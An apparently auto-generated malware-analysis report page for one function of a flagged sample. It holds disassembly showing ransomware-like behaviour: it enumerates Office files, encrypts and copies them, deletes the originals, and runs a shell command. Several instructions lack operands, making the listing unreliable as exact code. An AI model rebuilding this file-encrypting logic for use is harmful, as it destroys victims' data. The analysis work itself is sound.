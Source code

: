 ```yaml
---
layout: post
title:  "fcn.0040bd70 @ 9c2b894b84f59672d8be2e984066f76f"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040bd70
- **Origin (md5):** 9c2b894b84f59672d8be2e984066f76f
- **VirusTotal:** [virustotal.com/gui/file/9c2b894b84f59672d8be2e984066f76f][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Estimated Behaviour
<ul><li class="bhv-desc" id="na">Not Available :(</li></ul>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/fcn.0040bd70@9c2b894b84f59672d8be2e984066f76f">fcn.0040bd70</a><br>@9c2b894b84f59672d8be2e984066f76f</b><br>', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
push 0xffffffffffffffff
push 0x575626
mov eax, dword
push eax
sub esp, 0xf14
mov eax, dword[0x5d9004]
xor eax, ebp
mov dword[ebp-0x10], eax
push ebx
push esi
push edi
push eax
lea eax, [ebp-0xc]
mov dword
mov esi, edx
mov dword[ebp-0xefc], esi
mov ebx, ecx
mov dword[ebp-0xef0], ebx
push str._c_mkdir__
lea eax, [ebp-0x3f8]
mov dword[ebp-0xf20], str.pptx_
push 0x1f4
push eax
mov dword[ebp-0xf1c], 0x5b9334
mov dword[ebp-0xf18], str.docx_
mov dword[ebp-0xf14], 0x5b9340
mov dword[ebp-0xf10], str.xlsx_
mov dword[ebp-0xf0c], 0x5b934c
mov dword[ebp-0xf08], 0x5b9350
mov dword[ebp-0xf04], 0x5b9354
mov byte[ebp-0x3f8], 0
call fcn.0055d83d
push esi
lea eax, [ebp-0x3f8]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b8e6c
lea eax, [ebp-0x3f8]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0x3f8]
push eax
push str.move_path_command_:__s_n
call fcn.00405f90
add esp, 0x2c
lea eax, [ebp-0x3f8]
push 0
push 0
push eax
push 0x5b937c
push 0
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
push 0x1f4
call dword[sym.imp.KERNEL32.dll_Sleep]
push ebx
lea eax, [ebp-0xbc8]
mov byte[ebp-0xbc8], 0
push 0x1f4
push eax
call fcn.0055d83d
push str._*.*_
lea eax, [ebp-0xbc8]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0xee8]
push eax
lea eax, [ebp-0xbc8]
push eax
call fcn.0055cedc
mov ebx, eax
add esp, 0x20
mov dword[ebp-0xf00], ebx
cmp ebx, 0xffffffff
jne off.b370
push str.There_were_no_files._n
call fcn.00405f90
add esp, 4
or eax, ebx
jmp off.b1470
lea eax, [ebp-0xec4]
push eax
push str.File:__s_n
call fcn.00405f90
push dword[ebp-0xee8]
push str.attrb_:__d_n
call fcn.00405f90
push 0x10
push str.dddd_:__d_n
call fcn.00405f90
lea eax, [ebp-0xec4]
push eax
lea eax, [ebp-0xdbc]
push 0x1f4
push eax
call fcn.0055d8a6
lea eax, [ebp-0xdbc]
push eax
push str.copiedFdName_:__s_n
call fcn.00405f90
add esp, 0x2c
mov dword[ebp-0xdc0], 0
lea eax, [ebp-0xdbc]
lea ecx, [ebp-0xdc0]
push eax
call fcn.00404510
push 2
lea eax, [ebp-0xef4]
mov dword[ebp-4], 0
push eax
lea ecx, [ebp-0xdc0]
call fcn.0040c450
push eax
lea ecx, [ebp-0xdc0]
mov byte[ebp-4], 1
call fcn.004093c0
mov byte[ebp-4], 0
or eax, 0xffffffff
mov edx, dword[ebp-0xef4]
add edx, 0xfffffff0
lock xadd
dec eax
test eax, eax
jg off.b564
mov ecx, dword[edx]
push edx
mov eax, dword[ecx]
call dword[eax+4]
mov eax, dword[ebp-0xdc0]
mov dword[ebp-0xef8], eax
lea eax, [ebp-0xeec]
push eax
lea eax, [ebp-0xdbc]
mov dword[ebp-0xeec], 0
push 0x5b93d8
push eax
call fcn.0055d023
mov esi, eax
add esp, 0xc
xor edi, edi
test esi, esi
je off.b665
nop dword[eax]
push esi
push str.token_:__s_n
call fcn.00405f90
lea eax, [ebp-0xeec]
mov edi, esi
push eax
push 0x5b93d8
push 0
call fcn.0055d023
mov esi, eax
add esp, 0x14
test esi, esi
jne off.b624
push edi
push str.ext_:__s_n
call fcn.00405f90
add esp, 8
xor ebx, ebx
xor esi, esi
nop dword[eax+eax]
test edi, edi
je off.b774
mov eax, dword[ebp+esi*4-0xf20]
mov ecx, edi
nop dword[eax]
mov dl, byte[ecx]
cmp dl, byte[eax]
jne off.b736
test dl, dl
je off.b732
mov dl, byte[ecx+1]
cmp dl, byte[eax+1]
jne off.b736
add ecx, 2
add eax, 2
test dl, dl
jne off.b704
xor eax, eax
jmp off.b741
sbb eax, eax
or eax, 1
test eax, eax
jne off.b774
push 0x7e24
push dword[ebp-0xef8]
call fcn.005558c0
add esp, 8
test eax, eax
mov eax, 1
cmove ebx, eax
inc esi
cmp esi, 8
jl off.b688
cmp dword[ebp-0xee8], 0x10
jne off.b1006
mov ecx, 0x5b93d8
lea eax, [ebp-0xec4]
mov dl, byte[eax]
cmp dl, byte[ecx]
jne off.b836
test dl, dl
je off.b832
mov dl, byte[eax+1]
cmp dl, byte[ecx+1]
jne off.b836
add eax, 2
add ecx, 2
test dl, dl
jne off.b804
xor eax, eax
jmp off.b841
sbb eax, eax
or eax, 1
test eax, eax
je off.b1006
mov ecx, 0x5b93f4
lea eax, [ebp-0xec4]
nop dword[eax]
mov dl, byte[eax]
cmp dl, byte[ecx]
jne off.b896
test dl, dl
je off.b892
mov dl, byte[eax+1]
cmp dl, byte[ecx+1]
jne off.b896
add eax, 2
add ecx, 2
test dl, dl
jne off.b864
xor eax, eax
jmp off.b901
sbb eax, eax
or eax, 1
test eax, eax
je off.b1006
push dword[ebp-0xef0]
lea eax, [ebp-0x9d4]
mov byte[ebp-0x9d4], 0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax, [ebp-0x9d4]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0xec4]
push eax
lea eax, [ebp-0x9d4]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0x9d4]
push eax
push str.subPath__s_n
call fcn.00405f90
add esp, 0x2c
jmp off.b1389
cmp ebx, 1
jne off.b1389
push dword[ebp-0xef0]
lea eax, [ebp-0x204]
mov byte[ebp-0x204], 0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax, [ebp-0x204]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0xec4]
push eax
lea eax, [ebp-0x204]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0x204]
mov byte[ebp-0x5ec], 0
push eax
lea eax, [ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93d8
lea eax, [ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b9328
lea eax, [ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
add esp, 0x48
lea eax, [ebp-0x204]
push eax
push str.inFile_Full_Path_:__s_n
call fcn.00405f90
lea eax, [ebp-0x5ec]
push eax
push str.outFile_Full_Path_:__s_n
call fcn.00405f90
lea edx, [ebp-0x5ec]
lea ecx, [ebp-0x204]
call fcn.0040c350
mov esi, eax
push esi
push str.encResult_:__d_n
call fcn.00405f90
add esp, 0x18
test esi, esi
jne off.b1389
push dword[ebp-0xefc]
lea eax, [ebp-0x7e0]
mov byte[ebp-0x7e0], 0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax, [ebp-0x7e0]
push 0x1f4
push eax
call fcn.0055d83d
lea eax, [ebp-0xec4]
push eax
lea eax, [ebp-0x7e0]
push 0x1f4
push eax
call fcn.0055d83d
add esp, 0x24
lea eax, [ebp-0x7e0]
push esi
push eax
lea eax, [ebp-0x204]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileA]
mov esi, eax
lea eax, [ebp-0x7e0]
push eax
push str.moveFile_Full_Path_:__s_n
call fcn.00405f90
push esi
push str.copy_result_:__d_n
call fcn.00405f90
lea eax, [ebp-0x204]
push eax
call fcn.0055d065
add esp, 0x14
mov ebx, dword[ebp-0xf00]
lea eax, [ebp-0xee8]
push eax
push ebx
call fcn.0055cee7
mov dword[ebp-4], 0xffffffff
add esp, 8
mov edx, dword[ebp-0xdc0]
mov esi, eax
add edx, 0xfffffff0
or ecx, 0xffffffff
lock xadd
dec ecx
test ecx, ecx
jg off.b1450
mov ecx, dword[edx]
push edx
mov eax, dword[ecx]
call dword[eax+4]
cmp esi, 0xffffffff
jne off.b370
push ebx
call fcn.0055ceb6
add esp, 4
xor eax, eax
mov ecx, dword[ebp-0xc]
mov dword
pop ecx
pop edi
pop esi
pop ebx
mov ecx, dword[ebp-0x10]
xor ecx, ebp
call fcn.00553199
mov esp, ebp
pop ebp
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/9c2b894b84f59672d8be2e984066f76f
